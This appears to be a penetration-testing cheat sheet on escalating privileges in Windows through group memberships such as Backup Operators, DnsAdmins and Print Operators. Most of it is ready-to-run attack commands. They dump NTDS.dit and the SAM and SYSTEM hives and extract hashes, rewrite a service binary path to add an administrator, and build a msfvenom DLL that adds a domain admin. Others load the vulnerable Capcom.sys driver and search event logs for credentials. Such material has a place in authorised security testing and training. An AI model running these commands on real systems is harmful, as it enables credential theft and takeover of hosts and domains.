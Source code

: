 # ✅ Windows Privilege Escalation – Group Privileges (Cheat Sheet)

---

## 🎯 Quick Wins
- [ ] `Backup Operators` → Copy files (SAM, SYSTEM, NTDS.dit)
- [ ] `Server Operators` → Modify service binary path → SYSTEM/Admin
- [ ] `Print Operators` → Load vulnerable driver (Capcom.sys) → SYSTEM
- [ ] `DnsAdmins` → Load malicious DLL via dnscmd → DA / SYSTEM
- [ ] `Hyper-V Admins` → Access VM disks → NTDS.dit → Hashes
- [ ] `Event Log Readers` → Search logs for credentials

---

## ✅ Enumeration

```powershell
whoami /groups
net localgroup "Backup Operators"
net localgroup "DnsAdmins"
net localgroup "Event Log Readers"
```

## ✅ Backup Operators

```c
# Enable Backup Privilege
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Set-SeBackupPrivilege

# Copy Protected File
Copy-FileSeBackupPrivilege 'C:\Confidential\file.txt' .\file.txt

# Copy NTDS.dit & SYSTEM hive (using diskshadow)
diskshadow.exe
DISKSHADOW> set context clientaccessible
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
robocopy /B E:\Windows\NTDS .\ntds ntds.dit


# Backup SAM & SYSTEM hives
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV

# Extract Hashes
secretsdump.py -ntds ntds.dit -system SYSTEM.SAV -hashes lmhash:nthash LOCAL
```
## ✅ Server Operators

```c
# Check The current configuration of the service
> sc qc <service name>

# Modify Service Binary Path
sc config AppReadiness binPath= "cmd /c net localgroup Administrators user /add"

# Start The Service
sc start AppReadiness || > net start daclsvc

# Verify Admin Access
net localgroup Administrators
```

## ✅ DnsAdmins

```c
#Check Permession
sc sdshow DNS

# Create Malicious DLL
msfvenom -p windows/x64/exec cmd='net group "domain admins" user /add /domain' -f dll -o adduser.dll

# Load DLL with dnscmd
dnscmd.exe /config /serverlevelplugindll C:\path\adduser.dll

# Restart DNS Service (if allowed)
sc stop dns
sc start dns

# Cleanup
reg delete HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
```

## ✅ Hyper-V Administrators

```c
# Exploit via VHDX access or vulnerable service (e.g., Mozilla Maintenance Service)
takeown /F "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

# Replace binary with malicious exe and start service
sc start MozillaMaintenance
```

## ✅ Event Log Readers

```c
# Confirm Group Membership
net localgroup "Event Log Readers"

# Search Logs for Credentials
wevtutil qe Security /rd:true /f:text | findstr "/user"
Get-WinEvent -LogName Security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}

wevtutil qe Security /rd:true /f:text | Select-String "/user"
```

## ✅ Print Operators

```c
# Confirm Privilege
whoami /priv

# Enable SeLoadDriverPrivilege
EnableSeLoadDriverPrivilege.exe

# Add reference to Capcom.sys driver
reg add HKCU\System\CurrentControlSet\Capcom /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
reg add HKCU\System\CurrentControlSet\Capcom /v Type /t REG_DWORD /d 1

# Exploit the driver
ExploitCapcom.exe
```
---
---
